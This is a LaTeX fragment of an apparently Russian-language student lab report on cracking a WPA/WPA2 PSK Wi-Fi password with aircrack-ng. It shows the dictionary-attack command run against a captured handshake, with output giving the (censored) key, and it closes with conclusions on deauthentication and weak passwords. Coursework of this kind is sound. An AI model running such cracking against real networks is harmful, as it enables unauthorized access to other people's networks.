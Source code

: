 \documentclass[10pt,a4paper]{report}
\begin{document}
Произведем взлом используя словарь паролей.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
sba@sba-Lenovo-G580:~$ sudo aircrack-ng dump-03.cap -w dict.dic
Opening dump-03.cap
Read 39140 packets.

   #  BSSID              ESSID                     Encryption

   1  D8:5D:4C:DA:F8:2E  room421                   WPA (1 handshake)

Choosing first network as target.

Opening dump-03.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 beta3


                   [00:00:00] 1 keys tested (358.84 k/s)


                         KEY FOUND! [ censored ]


      Master Key     : F9 C3 60 85 42 26 AB 6E 15 80 8D 73 A7 1A 76 63 
                       45 FC B0 FD A5 FD 58 24 8A CB 80 38 3C 21 C6 BA 

      Transient Key  : 49 13 7A 7D CF E4 00 FC AA 8C DB 8A 58 AC 7F DF 
                       D5 FF 15 6A AC 4D D2 D1 F7 B4 02 69 37 F7 22 AE 
                       4B E7 B3 53 B9 53 24 18 49 48 56 6B 1C BB 1A FE 
                       C4 BA 3A 08 E5 98 6D 96 AF 25 64 0B 25 D4 03 A9 

      EAPOL HMAC     : 7D 59 5E 9F AE 1B 7A 1D B5 F6 3A 75 75 51 C2 76 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.

\section{Выводы}
В ходе данной работы были изучены основные возможности пакета AirCrack и 
принципы взлома WPA/WPA2 PSK. %
Данный инструмент позволяет прослушивать пакеты, генерировать новые и на основе 
handshake, а так же осуществлять взлом пароля сети при помощи перебора по 
словарю, что в реальных ситуациях очень ресурсозатратно. %
Однако, с дургой стороны, деаутентификация клиента не требует особых затрат, 
что может быть использовано в ряде атак. %
В ходе работы было выяснено, что для защиты сети не стоит использовать простые 
пароли или пароли, находящиеся в различных словарях паролей.
\end{document}
